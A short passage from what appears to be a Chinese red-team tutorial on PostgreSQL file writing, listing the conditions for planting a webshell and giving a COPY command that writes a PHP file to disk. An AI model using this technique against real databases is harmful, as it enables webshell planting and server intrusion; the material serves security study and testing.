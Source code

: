 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/10.png)

---

## PostgreSQL 写文件

**写 webshell 所需的利用条件**
- 拥有网站路径写入权限
- 知道网站绝对路径

**方法1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/1.png)
